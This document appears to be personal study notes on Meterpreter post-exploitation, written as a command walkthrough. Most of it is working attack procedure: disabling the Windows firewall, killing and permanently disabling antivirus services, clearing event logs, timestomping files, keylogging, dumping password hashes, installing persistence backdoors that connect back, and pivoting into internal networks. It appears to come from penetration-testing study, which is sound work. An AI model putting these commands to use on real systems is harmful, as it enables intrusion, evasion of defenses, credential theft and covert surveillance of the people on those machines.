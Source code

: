 # Meterpreter & Post-Exploitation

1. Understanding the victim better (recon)
2. Privilege Escalation (Exploitation)
3. Deleting Logs and Killing Monitoring Software (Post, covering tracks)
4. Collecting Data, Executing programs etc. (recon)
5. Backdoors and Rootkits (post)
6. Using victim as a pivot to hack deeper into the network (exploitation)

### Meterpreter Commands -  post recon

- sysinfo
- getuid
- getpid (current process id)
- ps (see all process)
- idletime (check if user is using the computer by checking their idletime)
- run checkvm (check if the sys is on vm or baremetal, post mt script)
- run get_env (check what environment)
- routes
- ifconfig
- run get_application_list
- run scraper (big info dump to your pc @ msf/logs/scripts/scraper/<IP><datecreated>)
- run winenum (Also info gathering but more on system, like firewall config)

- run (to see what mt posts script you can run)

### 2.PE
example: minishare program has an exploit in metasploit (search it in metasploit)

- getuid
- getsystem -h to learn how to use
- rev2self to revert
- migrate <pid> (after getting privilege, you can migrate to any processes)

### 3.Detecting Logs and shutdown AV

- execute -f cmd.exe -c -H (to get a win cmd, -c to channelize it, -H to hidden from view, remote computer wont come up cmd)
  - interact 1 (talk to channel 1) [Inside win cmd]
  - netsh firewall show opmode (check firewall situation) [Inside win cmd]
  - netsh firewall set opmode mode= DISABLE (disable firewall)
  - netsh firewall show opmode to check again
 
- run killav (kill the antivirus) might not always work
- Lets do it Manually in the target machine
  - now lets do it with a cmd in the machine `execute -f cmd.exe -c -H` `interact 2` (this time it will be on channel 2)
  - `tasklist` to see all ask, avg is what we want to look for which is antivirus
  - `tasklist /SVC` to catergorize them by respondence and look at what is the root of all avg services, /SVC being 'run it along with services hosted by them
  - `tasklist /SVC | find /I "avg"` to see service further down the service tree (all of the service with "avg"), /I being non case sensitive
  - `taskkill /?` to see how to use taskkill, `/?` is like `-h` in linux
  - after that we run `taskkill /F /IM "avg*"`, /F being force, /IM is the Image Name or the process/executable that you want to kill, and we want to kill everything starting with avg with`*` wildcard indicating behind it
  - Nice, let's `tasklist /SVC | find /I "avg"` to see what is still there. And the kill didn't work, it killed some but not the root program started those services again
  - `net stop <service>` to stop specific task, so `net stop avgwd`, and it says it cannot be stopped
  - lets see the attributes of these 2 services `sc queryex avgwd` & `sc queryex AVGIDSAgent`, `sc` is service config manager, `queryex` is query extended, meaning it show more info than `query`
  - It says 'Not stoppable and not pausable, but accepts shutdown', so we can disable it next time when reboot, it is just not stoppable after it booted up
  - `sc config avgwd start= disabled` & `sc config AVGIDSAgent start= disabled`, it should show something like `[SC] ChangeServiceConfig SUCCESS` so it is disabled and now we just need to reboot
- `exit` the win cmd, back to the meterpreter shell. Lets `reboot` the computer
- Let's `exploit` the system again to get back in after it reboot, and `execute -f cmd.exe -c -H` `interact 1` and `tasklist /SVC | find /I "avg"` and the root service isn't there!!!
- Now lets' finally kill the task `taskkill /F /IM "avg*"` and mess with the system!
- Let's mess the log files up so people have no idea whatsup. In meterpreter, run `clearev` to clear event logs

### Stdapi and Priv Extensions, Extensions in Meterpreter

- normal ls and mkdir commands are from the stdapi, and allow us to run these commands in windows or any machine.
- type `?` in meterpreter to view it

- For all keyloggin `keyscan_dump` `keyscan_start` `keyscan_stop` `screenshot`, windows session architecture needs to be understook
  - Windows session is to allow multiple users to log into same computer, however, session 0 is separated for system and critical service, main user is session 0
  - under a session, there are window stations, while multiple stations are possible and there, WinSta0 is the one control desktops, which is the GUI we interact with and most likely use
  - while sessions are run isolate, programs like task managers can reach session 0
  - So the take away is that when running a keylogger, we must be on the same session and same station with the program that is taking in the user input (must be WinSta0, since WinSta0 takes the User Input)
  - So `getdesktop` to see what session and window station we are in
  - `ps` to show all processes, `migrate` to a process you are sure is on a WinSta 0, basically any that has a GUI and interactive
- `Hashdump` for dumping hashes
- `timestomp -h` to see how to modify the time of the file

### espia extension
- same as screengrab, but it does not require to be at WinSta0 like mentioned above

### Sniffer extension
- `use sniffer` and type `?` to learn what it can do
- basically it allow us to do wireshark stuff but from the inside, the exploited machine


### 5.Backdoor & rootkits

2 types: persistence and metsvc

**Persistence**
- persistent backdoorconfigured to connect back on system boot or user login
- creates vbs file on victime and executes it
- although can be uninstalled remotely, needs to delete vbs manually

Commands
- `run persistence -h` for help
- first thing you wanna do is to `run persistence -A -L c:\\ -X -i 10 -p 443 -r<IP>` to start a multi handler to connect back to our machine(-A), (-L) location of vbs, -i 10s for each connection attempt
- use `resource <location of the vbs file(.rc)` to remove it

**metsvc**

- `run metsvc -A` always good to create a multi handler first
- after reboot, we need to manual connect again with `use exploit/multi/handler` and set payload to `windows/metsvc_bind_tcp` and set LHost
- not too good because metsvc is there listening to us since it is bind shell, so anyone who can fine it can connect to it
- `run metsvc -r` to remove it from sys

### 6.Pivoting
Example: broke into DMZ, and we actually want to break in more to the good stuff

- After in DMZ host, check `ipconfig` and see the adapters and see if there is an extra network under it
- `run arp_scanner -r <The extra network IP/24>` to see if it is a proper host on that network
- `background` to go back
- `route add <target network IP> 255.255.255.0 1` route all traffic to <target> network using metasploit session 1
- `route print` to see session routing
- `use auxiliary/scanner/portscan/tcp` to scan all posts, since nmap wont be able to get there, if there is port open, we can use `netapi exploit`
- `use netapi` and `set RHOST`
- **remember the payload has to be bind in this case, because the machine is on a subnet, it would not know our address (attacker machine)**

